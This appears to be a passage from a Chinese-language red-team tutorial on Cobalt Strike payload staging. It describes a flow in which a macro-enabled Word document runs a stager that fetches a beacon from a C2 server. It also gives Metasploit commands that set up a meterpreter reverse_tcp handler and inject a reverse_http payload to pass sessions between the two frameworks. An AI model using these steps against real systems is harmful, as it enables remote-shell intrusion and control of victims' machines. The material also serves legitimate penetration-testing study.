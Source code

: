stageless 直接省略了下载 payload 的步骤，所以一般生成的 stageless 程序都是 exe 或者 dll 文件，相对 stager 来说要大得多，而且包含了一些特征。

在 CS4 中，stagers 不再作为最流行的工具来使用，但是一些由用户驱动的攻击仍然使用 stager。stager 将不再对其控制端进行权限认证，因此 stager 将变得不安全。stager 也变得脆弱了，如果它碰到了一些没有预期的情况时，可能 stager 会崩溃。这些 stagers 之所以还保留着是因为它们是为 Metasploit 框架服务的。stager 的代码内容也是很容易被发现的，而且任何一种内存扫描器也应该能够发现它们。CS 没有能力去在内存中清除这些特征或者是给他们添加混淆。

## 0x03 stager 工作流程举例

![payload staging](img/d6601a949a68a48ef158d5367bb6e762.png) 通过打开一个带有宏的 word 文档来创建子进程，然后通过打开文档执行宏代码执行 stager 程序，接着 stager 将通过 HTTP 或 HTTPS 协议请求 C2 控制器，请求的 URI 上会带有一个校验值，在校验值通过检查后，服务器将会将 payload 传回，然后 stager 将开始执行该 payload。

如果你的 stager 是请求到 Metasploit Framework Handler 上，那么你将获得一个不够健壮（immature）的 payload。如果你是请求到 Coballt Strike 的 web 服务上，那么你将获得一个 beacon payload。

Metasploit Framework 作为控制器的话，payload 需要配置为 windows meterpreter reverse http 或者 reverse https。Metasploit 的攻击流程也是一样的，发送 GET 请求，然后下载 Cobalt strike beacon payload，所以 Cobal Strike 允许你使用一个 Metasploit Framework 生成的 exp 来传输 Cobal Strike beacon。

另外，Cobal Strike 还可以派生 shell 给 Metasploit（前提是有个 beacon shell）。

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.100
lhost => 192.168.1.100
msf exploit(handler) > set lport 5555
lport => 5555
msf exploit(handler) > exploit 
```

Metasploit 也可以派生 shell 给 Cobal Strike（前提有一个 meterpreter）

```
msf exploit(handler) >  use exploit/windows/local/payload_inject
　　msf exploit(payload_inject) >  set PAYLOAD windows/meterpreter/reverse_http
　　msf exploit(payload_inject) > set DisablePayloadHandler true
　　msf exploit(payload_inject) > set LHOST 192.168.229.143
　　msf exploit(payload_inject) > set LPORT 1212
　　msf exploit(payload_inject) > set SESSION 1
　　msf exploit(payload_inject) > exploit 
```
